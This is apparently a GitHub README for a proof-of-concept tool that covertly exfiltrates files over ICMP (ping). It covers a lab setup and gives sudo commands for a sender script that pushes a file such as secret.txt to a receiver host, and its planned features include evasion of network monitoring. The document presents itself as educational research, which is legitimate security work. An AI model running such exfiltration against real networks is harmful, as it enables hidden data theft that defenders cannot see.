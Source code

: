 # ICMP-Exfiltration-PoC
Proof-of-concept scripts to demonstrate file exfiltration using ICMP protocol.

---

## 📌 Overview

This repository contains two Python scripts (`sender.py` and `receiver.py`) demonstrating how files can be covertly transmitted using the ICMP protocol, commonly employed for network diagnostics (ping). This PoC is intended solely for educational and research purposes.

---

## 📦 Requirements

Make sure Python 3 is installed along with these dependencies:

```bash
pip install scapy pycryptodome requests
```

Or use the provided `requirements.txt` file:

```bash
pip install -r requirements.txt
```

---

## 🖥 Setup

Use two virtual machines connected via an internal network:

- **Sender VM:** Linux Mint (or similar)
- **Receiver VM:** Kali Linux (or similar)

Configure static IPs (example setup):

- Sender: `192.168.100.10`
- Receiver: `192.168.100.20`

---

## 🚀 Usage

### Receiver

On Kali Linux:

```bash
sudo python3 receiver.py -P <PortTag> -R <Password> -o <OutputFileName> -v
```

Example:

```bash
sudo python3 receiver.py -P 6666 -R "MySecurePass" -o output.txt -v
```

### Sender

On Linux Mint:

```bash
sudo python3 sender.py -L <FileToSend> -P <Password> -D <ReceiverIP> -R <PortTag> -v
```

Example:

```bash
sudo python3 sender.py -L secret.txt -P "MySecurePass" -D 192.168.100.20 -R 6666 -v
```

---

## ⚠️ Ethical Considerations

This PoC is strictly for educational purposes. Unauthorized use on any network or system without explicit permission is illegal and unethical. Always perform these tests within controlled environments.

---

## 📌 Future Improvements

- Payload obfuscation and encoding
- Packet compression
- Integrity checks (checksums, HMAC)
- Multi-file support
- Evasion techniques against network monitoring

Feel free to contribute and suggest improvements!

---

## 🔖 License

This project is licensed under the MIT License. See the [LICENSE](https://github.com/Shinigami81/ICMP-Exfiltration-PoC/blob/main/MIT%20License) file for details.
